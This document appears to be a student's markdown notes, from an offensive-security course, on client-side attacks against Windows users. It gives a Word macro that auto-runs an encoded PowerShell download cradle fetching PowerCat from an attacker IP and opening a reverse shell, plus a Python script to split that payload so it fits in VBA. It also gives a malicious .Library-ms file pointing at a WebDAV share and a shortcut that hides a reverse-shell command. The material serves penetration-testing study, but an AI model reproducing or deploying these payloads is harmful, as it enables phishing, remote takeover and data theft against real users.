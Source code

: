 
# Target Reconnaissance
## Information Gathering

- exiftool
	- metadata of 'supported' files
	- exiftool -a -u brochure.pdf
		- -a to show duplicate tags
		- -u to display unkown tags

## Client Fingerprinting

- theHarvester
	- extracts emails / very important
	- used for HTML Application (HTA) attacks
- Canarytokens
	- generates links with embedded tokens or urls
	- grabs browser, IP, and OS info
- Grabify
	- IP logger
- finerprint.js
	- fingerprinting libraries

## Exploiting Microsoft Office
- MOTW (Mark of the Web)
	- Enables protected view
		- which then means they will have to click learn more then Unblock in file properties

## Leveraging Microsoft Word Macros

- ActiveX Object
	-  provide access to underlying OS commands
- WScript
	- uses ActiveX Objects
- Windows Script Host Shell Object
	- uses WScript
1. Instantiate a Windows Script Host Shell object with Create Object, invoke the Run method for Wscript.Shell
	- Luanches an app on target machine
	- ```
```1. Sub MyMacro()
		2.CreateObject("Wscript.Shell").Run "powershell"
		3. End Sub
````
2. AutoOpen & Document_Open
	- events needs to open doc
	- ```
		Sub AutoOpen()
		
		  MyMacro
		  
		End Sub
		
		Sub Document_Open()
		
		  MyMacro
		  
		End Sub
		
		Sub MyMacro()
		
		  CreateObject("Wscript.Shell").Run "powershell"
		  
		End Sub
``
3.  Add reverse shell macro using PowerCat
	- Use a base64 encoded PowerShell download cradle
	- VBA has 255-character limit
		- must split string into multiple variables
	1. Declare string variabled Str with the Dim Keyword
		- stores PowerShell cradle & command to create a reverse shell 
	2. ```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
``
4. PowerShell command to download PowerCat and execute the reverse shell```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
``
5. Python script to split in 50 characters & combind with Str variable
	- ```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
``
6. Update macro with split strings
	- ```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
``
7. Start up  nc listener 
	- should recieve get request for PowerCat file
	- nc -lvnp 4444

## Obtaining Code Execution via Windows Library Files
- Library file
	- .Library-ms
- WebDAV
	- windows web server protocol
	- less likely filtered in emails
	- appears as a local directory
- WsgiDAV
	- WebDAV server

1. Download
	- pip3 install wsgidav
		- will install in /home/kali/.local/bin
	- apt-install python3-wsgidav
2. mkdir /home/kali/webdav
3. touch /home/kali/webdav/test.txt
4. wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
	- root = WebDAV share
5. RDP into target
	- xfreerdp
	- xfreerdp /u:username /p:password /v:192.168.0.101
1. Create library file on tgt machine
	1. config.Library-ms
	2. change icon to less suspicious
	3. create XML parameters
		1. Library Description tag
			1. ```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
2. Name Tag
	- cannot be arbitrary
	- provided by DLL name & index
	- @shell32.dll,-34575_ or @windows.storage.dll,-34582_
3. Version Tag
	- ```
<version>6</version>
``
	- number doesnt matter
4. isLibraryPinned tag
	- specifies if the library is pinned to the navigation page on Windows
	- small detail that helps convince target
	- set to true
5. iconReference Tag
	- what icon is displayed
	- imagesres.dll
		- chooses between all windows icons
		- "-1002" for Documents folder icon
		- "-1003" for Pictures folder icon
	- ```
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	``
	- templateInfo tags
		- contains folderType tags
			- determines the columns & details by default when opening the library
		- specify GUID
			- to look up on Microsoft documentation webpage
			- using Documents GUID
			- ```
	<templateInfo>
	<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	``
- searchConnectDescriptionList Tag
	- specify the storage location where our library file points to
	- contains a list of search connectors
		- defined by searchConnectorDescription
	- add isDefaultSaveLocation tag
		- set to true
	- isSupported tag
		- set to true
		[	- URL tag]
			- point to our created WebDAV share 
			- contains simpleLocation Tag
				- user friendly more so than locationProvider element
			- ```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
``
- Entire XML of library file
	- ```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
``

- Serialized tag
	- windows bae64 encodes URL automatically
	- can result in fails
	- must re-insert XML property data to refresh each time
6. Create shortcut on windows desktop
	- Have it point to Powershell
	- Use download cradle to load PowerCat from our Kali to start reverse shell
	- ```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.145.245:8000/powercat.ps1');
powercat -c 192.168.45.245 -p 4444 -e powershell"
``
	- to hide command in shortcut, use delimeter or benign command to push the reverse shell command out of view
	- WebDAV is writeable
	- mostly likely blocked by AV
	- use python 3 web server to transfer powercat file
- Example 2:
	- cd webdav
	- rm test.txt
	- smbclient //192.168.50.195/share -c 'put config.Library-ms'
